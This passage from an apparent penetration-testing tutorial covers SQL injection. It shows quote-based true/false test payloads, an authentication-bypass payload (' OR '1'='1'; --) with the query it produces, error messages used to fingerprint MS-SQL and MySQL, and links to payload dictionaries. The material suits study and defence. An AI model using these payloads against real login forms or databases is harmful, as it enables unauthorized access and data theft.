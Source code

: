 Typical payloads for that query:

```
# Return true
''
""

# Return false
'
"
```

**Exploiting single quote (')**: In SQL, the single quote is used to delimit string literals. A way to exploit this is in a Login form:

```
# SQL query
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'

# Payload
' OR '1'='1'; --

# The attacker's injected SQL code ' OR '1'='1'; -- causes the condition '1'='1' to evaluate to true, effectively bypassing the
authentication mechanism. Modified query would became
SELECT * FROM users WHERE username = '' OR '1'='1'; -- ' AND password = '<password>'
```


## Error-based testing

??? example "Dictionaries"
    [https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based)

Firstly, every DBMS/RDBMS responds to incorrect/erroneous SQL queries with different error messages, so an error response can be use to fingerprint the database:

A typical error from MS-SQL will look like this:

```
Incorrect syntax near [query snippet]
```


While a typical MySQL error looks more like this:

```
You have an error in your SQL syntax. Check the manual that corresponds
to your MySQL server version for the right syntax to use near [query
snippet]
```


## UNION attack

??? example "Dictionaries"
    [https://github.com/amandaguglieri/dictionaries/blob/main/SQL/union-select](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/union-select)
